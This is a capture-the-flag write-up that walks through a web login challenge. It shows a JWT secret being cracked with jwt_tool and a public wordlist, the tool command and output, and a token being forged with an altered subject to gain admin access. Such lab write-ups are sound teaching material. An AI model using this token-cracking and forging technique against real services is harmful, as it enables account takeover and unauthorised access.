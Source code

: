  
## Challenge description

![](Screenshot_20230725_012008.png)

## first lets explore 

##### we have a login page & sign-in page
![[Screenshot_20230725_012126.png]]

##### first thing come to my mind SQLi ,Broken Authentication, Broken Access Control

###### tried SQLi but did not seem that the website is vulnerable to it
###### tried to check if the sign-in and login reveal info about current users or their passwords , i found an admin user  ,  i was about to check password policy and try to brute-force it , but then the admin said no brute-force

##### back to the challenge description `what is 5 minus 4?` , so i tried to login as username=1 and password=1 and it worked !! 

##### lets check the repeater 
![[Screenshot_20230725_013210.png]]

##### we have an interesting cookie and it seems to be a jwt token and i was right 
![[Screenshot_20230725_013521.png]]

##### back to challenge description `There are some best practices in web development which should strictly followed by the developer!`  so i think maybe it have a weak secret 

##### first i tried to check if the key secret generated by the interval time between `nbf` and `exp` but did not work 

##### then i searched for a list for jwt secrets to brute-force [list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)  and jwt-tool [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```zsh
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5MDIzNzg5NywianRpIjoiYjQ1ZTJlMGYtNzYwZi00ODQ3LTliNTgtYTg0YWYzNjY2YjFiIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MTAsIm5iZiI6MTY  
5MDIzNzg5NywiZXhwIjoxNjkwMjM4Nzk3fQ.3dlek7H56vB7C_lmjGjXDKOSSosCoAO41XWdOkLIurI  -d /path/to/list -C  
  
       \   \        \         \          \                    \    
  \__   |   |  \     |\__    __| \__    __|                    |  
        |   |   \    |      |          |       \         \     |  
        |        \   |      |          |    __  \     __  \    |  
 \      |      _     |      |          |   |     |   |     |   |  
  |     |     / \    |      |          |   |     |   |     |   |  
\        |    /   \   |      |          |\        |\        |   |  
\______/ \__/     \__|   \__|      \__| \______/  \______/ \__|  
Version 2.2.6                \______|             @ticarpi         
  
Original JWT:    
                                                                                                                                                                                                                  
[+] this_is_a_dev_secret is the CORRECT key!  
You can tamper/fuzz the token contents (-T/-I) and sign it using:  
python3 jwt_tool.py [options here] -S hs256 -p "this_is_a_dev_secret"
```

##### we found the secret now we can modify the token , i changed the sub to 1 since it is the challenge name (not i get a new token because the previous one expired )
![[Screenshot_20230725_014825.png]]


##### send a request with the new token and we get the flag
![[Screenshot_20230725_015206.png]]

